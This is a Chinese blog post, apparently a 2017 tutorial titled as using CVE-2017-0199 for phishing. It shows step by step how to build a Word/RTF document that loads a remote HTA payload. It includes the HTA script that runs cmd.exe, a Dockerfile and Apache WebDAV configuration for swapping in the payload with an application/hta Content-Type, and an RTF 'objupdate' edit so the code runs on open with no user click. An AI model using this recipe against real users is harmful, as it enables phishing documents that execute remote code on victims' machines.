Title:用office的CVE-2017-0199漏洞进行钓鱼（一）
Date: 2017-12-18 10:20
Category: 漏洞
Tags: office,漏洞,钓鱼
Slug: 
Authors: bit4
Summary: 


### 0x0、准备知识

#### 漏洞概述

1. 该漏洞出现在处理HTA文件的时候
2. 是在使用OLE嵌入链接对象的时候，所以我们构造poc时需要的文档类型是DOCX, DOC 或者 RTF ，它们都处理嵌入的链接

#### 关于HTA文件

HTA是HTML Application的缩写（HTA文件是可以运行JScript和VBscript的HTML应用程序），其中代码的内容实质和HTML是一样的。但是HTA文件是由mshta.exe）加载执行的。

我们新建一个文本文件，然后输入如下代码，并重命名为poc.hta.

```html
<script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir%\\System32\\cmd.exe /c calc.exe', 0);window.close();
</script>
```

然后双击hta文件运行程序，效果如下：




#### 关于文件插入选项

插入问的时候有2个选项：

1. “链接到文件”，当不选择这个选项时，插入到当前的文件和原始文件再无关联，原始文件更新改变也不影响。如果选择了，那么就会在打开文档的时候尝试获取原始文件并且对比，如果有更新，则根据原始文件进行更新。



2. “显示为图标”选项，主要影响在文档中的显示。

   比如插入rtf文件，在插入的时候不选择“显示为图标”，文档中就基本看不不出有插入的文件存在，可以利用这点来隐藏插入的链接。

   


#### 尝试插入HTA文件到文档

前面已经说过，能处理OLE2嵌入链接对象的文档类型包括doc、docx、rtf。我们就直接创建一个docx吧，我的系统上默认是它。

接下来是插入链接，我们有2种选择：一是插入本地链接，二是插入远程链接。

我们先试试第一种，直接在word文档中插入HTA文件看看，结果发生了如下错误，无论是否选择“链接到文件”都是一样的错误（这可能是其他文章的复现方法中都选择用http链接的原因之一）。





接下来试试第二种，插入远程hta文件的链接（http://www.code2sec.com/poc.hta），如果不选择“链接到文件”错误和上面一样，无法成功插入，所以必须选择“链接到文件”。如果选择“显示为图标”效果如下，需要点击图标才能弹出计算器。



如果不选择“显示为图标”，则在插入的时候就执行了程序，效果如下。




如上，我们有2个问题需要解决：

一是让我们构造的文档在再次打开的时候正常请求链接-----也就是配置webdev服务器, 见“关于webdav服务器”部分。
二是在隐藏图标的同事让HTA文件能持久化，不在插入的时候立即执行。-----先插入一个rtf文件并不选择“显示为图标”，然后在服务端更改文件的内容，让再次打开文档请求到的文件实质是HTA文件。


#### 关于webdav服务器

为什么需要webdev服务器？

是为了允许Microsoft Office执行的PROPFIND请求。如果我们直接插入常规的http链接，并且选择“链接到文件”，在第二次打开文档时，将不能正常请求远程文件，将发生如下错误：“找不到服务器应用程序、源文件或项目”（入“尝试插入HTA文件到文档”部分所示）。为了解决这个问题，我们需要服务器支持webdev。

Apache2开启dav支持，执行以下命令：

```
 a2enmod dav
 a2enmod dav_fs
 a2enmod dav_lock
 a2enmod headers
 service apache2 restart
```


基于以上问题，我们需要更改2次apache2的配置：

第一次：配合文档插入正常链接，并且隐藏图标，即需要将content-type设置为application/rtf 或者application/doc

第二次：在将链接的文档内容修改为HTA内容后，让请求任务该文档不是rtf或者doc,而是hta，即需要将content-type设置为application/hta.

为什么content-type这么关键？ 因为OFFICE调用[URL Moniker](http://link.zhihu.com/?target=https%3A//msdn.microsoft.com/en-us/library/ms775149%2528v%3Dvs.85%2529.aspx)（COM对象）来下载链接指向的HTA文件，并且通过识别响应头中content-type的字段信息来判断文件的类型，最后调用类型对应的程序来执行（HTA文件由mshta.exe来执行）。


### 0x1、漏洞复现

#### 第一步：构建隐藏了图标的正常链接文档

首先搭建web服务器，基于如下dockerfile

```
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y apache2

RUN a2enmod dav
RUN a2enmod dav_fs
RUN a2enmod dav_lock
RUN a2enmod headers

RUN service apache2 restart

RUN apt install vim -y

RUN apt install lrzsz -y

EXPOSE 80
```

运行如下命令构建docker镜像：

```
docker build -t cve-2017-0199-server .
docker run -it -p 8888:80 cve-2017-0199-server
```

在本地创建一个1.docx上传到 /var/www/html/ 

```
cd /var/www/html
service apache2 start
mkdir test
cp 1.docx test/1.rtf
```

在本地创建一个poc.docx文件,然后插入链接`http://MyIP:8888/test/1.rtf`：


如果此时对以上链接进行抓包访问，看到的内容如下，需要保证返回的Content-Type的值是application/rtf或者application/doc（为了隐藏图标，也为保证正常插入链接）：




#### 第二步：替换链接中的文件为HTA文件

还是在服务端进行配置的修改，先上传poc.hta到服务器/var/ww/html/，poc.hta的内容如下：

```html
<script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir%\\System32\\cmd.exe /c calc.exe', 0);window.close();
</script>
```

```
cp poc.hta test/1.rtf
vim /etc/apache2/apache2.conf
```

修改apache2的配置文件，增加2行配置（"Dav on" 在第一步的时候就可以配置，不影响；关键是Content-Type的设置）

```
<Directory />
        Options FollowSymLinks
        AllowOverride None
        Require all denied
        Dav on
</Directory>

<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
        Header set Content-Type "application/hta"
</Directory>
```



修改为如上配置后重启apache2服务 `service apache2 restart`先通过burp抓包验证一下，必须保证Content-Type是application/hta。




这个时候打开poc.docx验证一下，弹出提示框的时候，点击“是”将成功弹出计算器。




### 第三步：无需要交互、自动运行

如上一步所示，需要用户确认，运行进行链接更新才可以触发poc，那么如何实现无需确认自动更新呢？

这需要利用到rtf文档的一个特性，我们先将poc.docx另存为poc.rtf，然后使用notepad++打开，在其中找到`{\object\objautlink\rsltpict`然后将其替换为`{\object\objautlink\objupdate\rsltpict\`,保存。

```
{\object\objautlink\rsltpict
{\object\objautlink\objupdate\rsltpict
```

objupdate参数的作用就是无需用户确认，在打开文档的时候就进行链接的更新操作。

我们再打开poc.rtf来验证一下，打开即运行了，无需用户交互点击。

### 第四步：程序自动化实现以上步骤

github上已经有成熟的工具 https://github.com/bhdresh/CVE-2017-0199


参考：

https://www.mdsec.co.uk/2017/04/exploiting-cve-2017-0199-hta-handler-vulnerability/

<https://github.com/bhdresh/CVE-2017-0199>

<https://www.hackersb.cn/hacker/228.html>

<http://www.91ri.org/16953.html>

<https://www.anquanke.com/post/id/85902>

<https://www.cnblogs.com/nayu/p/6799912.html>


